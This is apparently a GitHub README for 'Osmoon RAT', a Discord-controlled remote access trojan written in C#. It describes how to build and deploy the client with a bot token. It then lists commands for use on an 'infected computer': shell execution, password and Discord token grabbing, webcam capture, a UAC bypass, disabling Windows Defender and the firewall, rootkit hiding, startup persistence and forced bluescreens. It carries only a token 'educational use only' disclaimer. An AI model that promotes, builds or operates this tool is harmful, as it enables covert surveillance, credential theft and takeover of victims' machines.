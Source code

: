 Osmoon RAT
Discord Remote Administration Tool fully written in c#.

This is a RAT controlled over Discord with over 40 post exploitation modules.

The output file size also around ~75kb!

Disclaimer:
This tool is for educational use only, the author will not be held responsible for any misuse of this tool.


You will first need to register a bot with the Discord developer portal and then add the bot to the Discord server that you want to use to control the bot (make sure the bot has administrator privileges in the Discord server). Once the bot is created open "builder.exe" and paste the token in, and paste the guild ID of where you invited the bot

Then if the steps above were successful, you can launch the file by executing Client-built.exe. It will create a new channel and post a message on the server with a generated session number.
Now your bot should be available to use !

Requirements:
Windows(x64)

Commands
Available commands are :
--> !message = Show a message box displaying your text / Syntax  = "!message example"

--> !shell = Execute a shell command /Syntax  = "!shell whoami"

--> !voice = Make a voice say outloud a custom sentence / Syntax = "!voice test"

--> !admincheck = Check if program has admin privileges

--> !cd = Changes directory

--> !dir = display all items in current dir

--> !download = Download a file from infected computer

--> !upload = Upload file to the infected computer / Syntax = "!upload file.png" (with attachment)

--> !uploadlink = Upload file to the infected computer / Syntax = "!upload link file.png"

--> !delete = deletes a file / Syntax = "!delete / path to / the / file.txt"

--> !write = Type your desired sentence on computer

--> !wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)

--> !clipboard = Retrieve infected computer clipboard content

--> !idletime = Get the idle time of user's on target computer

--> !currentdir = display the current dir

--> !block = Blocks user's keyboard and mouse / Warning : Admin rights are required

--> !unblock = Unblocks user's keyboard and mouse / Warning : Admin rights are required

--> !screenshot = Get the screenshot of the user's current screen

--> !exit = Exit program

--> !kill = Kill a session or all sessions / Syntax = "!kill session-3" or "!kill all"

--> !uacbypass = attempt to bypass uac to gain admin by using windir and slui

--> !shutdown = shutdown computer

--> !restart = restart computer

--> !logoff = log off current user

--> !bluescreen = BlueScreen PC

--> !datetime = display system date and time

--> !prockill = kill a process by name / syntax = "!kill process"

--> !disabledefender = Disable windows defender(requires admin)

--> !disablefirewall = Disable windows firewall(requires admin)

--> !audio = play a audio file on the target computer / Syntax = "!audio" (with attachment)

--> !critproc = make program a critical process. meaning if its closed the computer will bluescreen(Admin rights are required)

--> !uncritproc = if the process is a critical process it will no longer be a critical process meaning it can be closed without bluescreening(Admin rights are required)

--> !website = open a website on the infected computer / syntax = "!website www.google.com"

--> !disabletaskmgr = disable task manager(Admin rights are required)

--> !enabletaskmgr = enable task manager(if disabled)(Admin rights are required)

--> !startup = add to startup(when computer go on this file starts)

--> !geolocate = Geolocate computer using latitude and longitude of the ip adress with google map / Warning : Geolocating IP adresses is not very precise

--> !listprocess = Get all process's

--> !password = grab all passwords

--> !rootkit = Launch a rootkit (the process will be hidden from taskmgr and you wont be able to see the file)(Admin rights are required)

--> !unrootkit = Remove the rootkit(Admin rights are required)

--> !getcams = Grab the cameras names and their respected selection number

--> !selectcam = Select camera to take a picture out of (default will be camera 1)/ Syntax "!selectcam 1"

--> !webcampic = Take a picture out of the selected webcam

--> !grabtokens = Grab all discord tokens on the current pc

--> !help = This help menu
